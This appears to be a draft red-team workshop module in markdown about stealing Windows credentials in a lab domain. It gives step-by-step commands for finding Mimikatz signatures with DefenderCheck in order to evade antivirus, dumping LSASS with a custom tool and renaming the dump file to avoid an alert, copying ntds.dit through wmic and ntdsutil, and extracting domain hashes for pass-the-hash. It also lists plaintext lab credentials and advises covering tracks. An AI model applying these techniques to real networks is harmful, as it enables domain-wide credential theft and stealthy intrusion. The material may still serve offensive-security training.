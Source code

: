 # Advanced Credential Grabbing

Mimikatz is very burned, but you can still use its functionality on your attacker device where you don't have to worry about detections.  No reason the re-invent the wheel here, but custom tooling is required to get around the standard detections built in to most EDRS.

If you are looking to understand what part of various malware or attacker tools is being detected you can use defender check.

This tool will leverage the current database of defender and identify the area of a binary or file that is triggering a given alert.  This only works for static detections, not for heuristic or behavioral detections.

1. On your attacker box, make sure defender is turned off.
2. Open and administrative powershell prompt and navigate to `C:\Users\Public\Dekstop\LAB_FILES\assets`
3. Unzip mimikatz and defender check using `expand-archive`
    ```powershell
    expand-archive defender-check.zip
    expand-archive mimikatz_trunk.zip
    ```
4. Run the following command to check mimikatz for signatures:
    ```
    .\defender-check\defendercheck.exe .\mimikatz_trunk\mimikatz.exe
    ```
5. In your results you see X.  

> If you still really wanted to use mimikatz, the process to re-compile a version that did not alert on defender (at least on file write) is to use the output of defender check to identify parts of the code that can be changed not to match the signature.

**potentially use vscode to show how that would go**

## Custom LSASS Dump

> Turning defender off, can either be difficult, or not guarunteed to stay that way due to domain policies, or even other EDR implementations. So what to do?
> Even using AMSI bypasses can be concerning these days due to the frequency at which the signature are updated even for the bypasses. 
> More advanced actors are using custom tooling.  There are two considerations.  Executables can be executed in memory, but then the process is not directly tied to an executable. So you can inject into another process that is already running, which is really the way to go.
> Other options are to bring your own executable, or use signed executables already on the box to execute DLL files through sideloading to do your bidding.

Some examples of these techniques are what we will cover here and in the other adanced modules.

1. From the Lighteater (Attacker Box), RDP into the TWORIVERS (client) with the local administrator account.  TWORIVERS\Administrator:Summerishere@2023!
2. Open an Administrative powershell terminal.
3. Change directory `cd c:\Users\Public\Desktop\LAB_FILES\assets`
4. Unzip the custom-procdump folder.
`expand-archive .\custom-procdump.zip`
5. CD into the "custom-procdump" folder.
6. Execute the nimprocdump.exe program. 
```powershell
.\nimprocdump.exe
```
![Proc Dump Output](./nimprocdump.png)

> This will find the process with lsass, and dump it into a file.  Important not to add this kind of info into a command line while you have commandline process auditing on. Which is why you build the options into the executable, and then additional information like PIDs are logged as arguments, which can later be used for detections.

This is detected and the proc.dump file is deleted.  Oh no!
![Proc Dump Alert](./nimprocdump-alert.png)

> Notice it is not deleting the .exe and the alert is actually focused on that processes dump the proc.dump file.  So likely the alert is focused on the file itselt.

7. `.\nimprocdump.exe; rename-item c:\proc.dump c:\not.dump`

**use nim custom .dll inject maybe, if I can make it work**

## Create Domain Save with 
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/

If you then end up with domain creds, one next step can be to grab the has credentials from the entire domain of course! There are a number of ways that have been flagged to essentaill steal the ntds.dit file from the Domain Controller.

Notes: VSSADMIN gets caught because it's use is so commonly associated with the steps that happen before you are ransomed.  Other tools like ninja copy require extended interaction within a remote session of powershell and loading of an additional library, all super noisy.

> If you can't tell, I reall think using tools that already exist on the sytem, or are commonly used by admins helps stay under the radar, and it makes detections for automated tooling really difficult. One such way is to use the ntdsutil tool that is built into domain controllers to create backup media.  Further, using wmic is just really hard to catch.  This is being actively used in the volt typhoon campaigns.

1. Remote into the TWORIVERS (client ) 172.31.24.111 with the domain admin credentials: wheel\ralthor : JustAn0therG!ng3r
2. As this user, open a administrative command prompt. (Leave defender on.)
3. Run the following command to launch this remote process on the Domain Controller.

```batch
wmic /node: /user: /password: process call create ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" qq"
```
4. Retrieve the file from sysvol.
5. Use the DINTERNALS package to pull the hashes.
`get-addbaccount -all -dbPath c:\ntds.dit -bootkey $key`
6. Recommend dropping these into a file, and they can be used later for pass the hash attacks.
7.



> From here you sould properly cover your tracks, but that is a different workshop.

